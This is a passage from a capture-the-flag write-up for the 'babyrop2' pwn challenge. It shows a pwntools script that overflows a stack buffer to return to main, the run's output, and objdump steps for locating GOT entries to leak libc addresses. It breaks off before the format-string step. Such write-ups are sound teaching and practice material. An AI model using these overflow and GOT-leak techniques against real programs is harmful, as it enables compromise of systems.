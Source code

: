 ```
# dmesg | grep babyrop2
[12951.502992] babyrop2[11339]: segfault at 7f0061616161 ip 00007f0061616161 sp 00007fffffffe150 error 14 in libc-2.28.so[7ffff7de7000+22000]
```
As seen above, we overwrite 4 bytes of EIP

So our payload should -4 and put the address to execute behind:
```python
from pwn import *
elf = ELF('./babyrop2')
main = elf.symbols['main']		# Get the address of main
p = elf.process()
p.sendline('a'*40+p64(main))	# Execute main
p.interactive()
```
Output:
```
# python solve.py 
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/Downloads/harekaze/rop2/babyrop2': pid 11648
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaa1!
What's your name? $ ls
Welcome to the Pwn World again, ls!
```
Yay! Next step is to leak address and calculate the address of system

We can use `printf("%s",got_address)` to leak the address store in GOT (Global Offset Table)

GOT is use to store C library function address

Use `objdump -d babyrop2` or use pwntools also can get the GOT address of a function

Using pwntools:
```python
from pwn import *
elf = ELF('./babyrop2')
main = elf.symbols['main']
print hex(elf.symbols['got.read'])
```
Using `objdump`:
```bash
# objdump -d babyrop2 

babyrop2:     file format elf64-x86-64
...
...
...
00000000004004f0 <printf@plt>:
  4004f0:	ff 25 22 0b 20 00    	jmpq   *0x200b22(%rip)        # 601018 <printf@GLIBC_2.2.5> (printf GOT)
  4004f6:	68 00 00 00 00       	pushq  $0x0
  4004fb:	e9 e0 ff ff ff       	jmpq   4004e0 <.plt>

0000000000400500 <read@plt>:
  400500:	ff 25 1a 0b 20 00    	jmpq   *0x200b1a(%rip)        # 601020 <read@GLIBC_2.2.5> (read GOT)
  400506:	68 01 00 00 00       	pushq  $0x1
  40050b:	e9 d0 ff ff ff       	jmpq   4004e0 <.plt>
```
Next step is to find the format string
